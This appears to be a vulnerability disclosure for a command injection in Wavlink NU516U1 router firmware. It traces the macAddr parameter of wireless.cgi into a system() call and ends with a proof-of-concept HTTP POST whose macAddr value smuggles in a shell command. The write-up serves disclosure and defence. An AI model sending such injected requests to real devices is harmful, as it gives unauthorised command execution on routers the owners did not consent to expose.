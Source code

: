 # Wavlink NU516 AddMac
### Overview
vendor: Wavlink

product: NU516U1

version: M16U1_V240425

type: Command Injection
### Vulnerability Description
Wavlink NU516U1 M16U1_V240425 were discovered to contain a command injection via the macAddr parameter in the sub_403010 function of the file wireless.cgi.
### Vulnerability details
In the ftext function, obtain the value of the page parameter via user input.

![](images/1.png)

Setting the value of the page parameter to AddMac will call the sub_403010 function.

![](images/6.png)

In the sub_403010 function, the value of the macAddr parameter is obtained via a post request. Then, the value of the macAddr parameter is passed to the v6 variable via the sprintf function, which in turn is passed to the sub_405314 function. In the sub_405314 function, the value of the v6 variable is passed into the byte_41BCB4 variable, and finally into the system function.

![](images/7.png)

![](images/5.png)

### POC
```
POST /cgi-bin/wireless.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 32
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/html/networkSetting.shtml
Accept-Encoding: gzip, deflate, br
Cookie: session=1251565210
Connection: keep-alive

page=AddMac&macAddr=$(ls>/2.txt)
```
